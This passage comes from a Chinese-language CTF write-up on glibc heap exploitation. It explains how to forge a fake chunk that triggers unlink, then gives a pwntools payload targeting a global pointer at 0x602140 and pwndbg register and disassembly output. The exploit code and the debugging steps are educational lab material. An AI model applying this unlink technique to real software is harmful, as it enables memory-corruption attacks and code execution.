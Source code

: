 如果想要构造一个能人为触发unlink的fake_chunk，那么这个fake_chunk的大小至少为：

+ 0x8(prev_size) + 0x8(size) + 0x8(fd) + 0x8(bk) + 0x8(next_prev) + 0x8(next_size) = 0x30

为了能够使得在释放“chunk3”的时候能够绕过检查向前合并fake_chunk，那么chunk3的prev_size就要等于fake_chunk的size大小，即0x30，这样才能说明前一个chunk(fake_chunk)是释放状态。（原因请参照p标志位）。

> 注意：只有空闲的（被free掉的）large_chunk才有fd与bk指针，fd_nextsize， bk_nextsize也是如此。
>

若想要触发unlink，那么相邻内存的大小就必须超过fastbin的最大值，所以相邻内存的大小至少是0x90，并且size的P标志位必须为0。payload如下：

```python
log.info("Creating fake chunk...")
payload = p64(0) + p64(0x30) + p64(0x602140 + 16 - 0x18) + p64(0x602140 + 16 - 0x10) + 'a' * 0x10 + p64(0x30) + p64(0x90)
edit(2, len(payload), payload)
p.recvuntil("OK")
time.sleep(1)
```

但是到此还不知道程序写入payload的位置，可以使用程序的编辑功能来查看一下，输入任意长度的字符串：

这里我输入的是：aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

```powershell
pwndbg> c
Continuing.
2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
FAIL
FAIL
FAIL
FAIL
FAIL
^C
Program received signal SIGINT, Interrupt.
0x00007ffff7b04320 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:84
84	in ../sysdeps/unix/syscall-template.S
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 RAX  0xfffffffffffffe00
 RBX  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
 RCX  0x7ffff7b04320 (__read_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x400
 RDI  0x0
 RSI  0xe05010 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
 R8   0x7ffff7dd3780 (_IO_stdfile_1_lock) ◂— 0x0
 R9   0x7ffff7fde700 ◂— 0x7ffff7fde700
 R10  0x7ffff7fde700 ◂— 0x7ffff7fde700
 R11  0x246
 R12  0xa
 R13  0x9
*R14  0xe05041 ◂— 0x0
 R15  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
 RBP  0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2a84
 RSP  0x7fffffffe438 —▸ 0x7ffff7a875f8 (_IO_file_underflow+328) ◂— cmp    rax, 0
 RIP  0x7ffff7b04320 (__read_nocancel+7) ◂— cmp    rax, -0xfff
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x7ffff7b04320 <__read_nocancel+7>     cmp    rax, -0xfff
   0x7ffff7b04326 <__read_nocancel+13>    jae    read+73 <read+73>
    ↓
   0x7ffff7b04359 <read+73>               mov    rcx, qword ptr [rip + 0x2ccb18]
   0x7ffff7b04360 <read+80>               neg    eax
   0x7ffff7b04362 <read+82>               mov    dword ptr fs:[rcx], eax
   0x7ffff7b04365 <read+85>               or     rax, 0xffffffffffffffff
   0x7ffff7b04369 <read+89>               ret    
 
```